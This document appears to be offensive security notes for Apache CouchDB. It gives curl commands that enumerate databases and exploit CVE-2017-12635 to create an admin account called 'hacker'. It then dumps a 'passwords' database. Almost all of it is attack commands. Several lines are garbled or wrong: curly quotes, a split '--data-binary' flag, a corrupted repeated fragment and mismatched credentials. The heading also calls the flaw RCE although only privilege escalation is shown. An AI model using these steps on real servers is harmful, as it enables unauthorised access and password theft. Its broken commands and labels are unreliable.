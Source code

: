 ```yaml
---
category: Uncategorized
tags: []
---
```

   
```bash - kali
curl http://$TARGET:5984/
```

```bash - kali
curl -X GET http://$TARGET:5984/_all_dbs
```

```bash - kali
curl -X GET http://$USER:$PASSWORD@$TARGET:5984/_all_dbs
```

### CVE-2017-12635 RCE

#### Create `hacker` user
```bash - kali
curl -X PUT ‘http://$TARGET:5984/_users/org.couchdb.user:hacker' -- data-binary ‘{ “type”: “user”, “name”: “hacker”, “roles”: [“_admin”], “roles”: [], “password”: “password” }’
```

#### Dump database
```bash - kali
curl http://$TARGET:5984/passwords/_all_docs?include_docs=true -u hacker:-Xpassword <ds/_all_docs?include_docs=true -u hacker:-Xpassword
```

#### Dump passwords
```bash - kali
curl -X GET http://hacker:passwords@$TARGET:5984/passwords
```
